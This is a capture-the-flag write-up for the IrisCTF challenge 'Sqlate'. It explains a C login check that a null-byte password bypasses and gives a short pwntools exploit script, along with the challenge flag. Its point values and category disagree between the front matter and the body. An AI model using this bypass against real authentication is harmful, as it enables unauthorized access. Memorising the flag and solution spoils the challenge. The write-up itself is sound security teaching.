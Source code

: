 ```yaml
---
title: "Sqlate"
date: "2025-06-18"
ctf: "IrisCTF"
category: "web"
difficulty: "Medium"
points: 100
tags: ["IrisCTF", "web", "Medium"]
author: "Tham Le"
solved: true
---
```


# Sqlate Write-up

Challenge: Sqlate (50 points)
Category: Web/Binary

## Vulnerability

The vulnerability lies in `action_login()`:

```c
void action_login() {
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }
}
```

The login function compares characters one by one without verifying the full password length. When we input a null byte (`\x00`), `strlen()` returns 0, causing the comparison loop to be skipped entirely.

## Exploit

```python
from pwn import *

conn = remote('sqlate.chal.irisc.tf', 10000)

conn.recvuntil(b'> ')
conn.sendline(b'5')

conn.recvuntil(b'Password?')
conn.sendline(b'\x00')

conn.recvuntil(b'> ')
conn.sendline(b'7')

flag = conn.recvline()
print(flag.decode())

conn.close()
```

1. Send option 5 for login
2. Send null byte as password to bypass check
3. Use option 7 (hidden) to cat flag
4. Get flag

Flag: `irisctf{real_programmers_use_vim}`
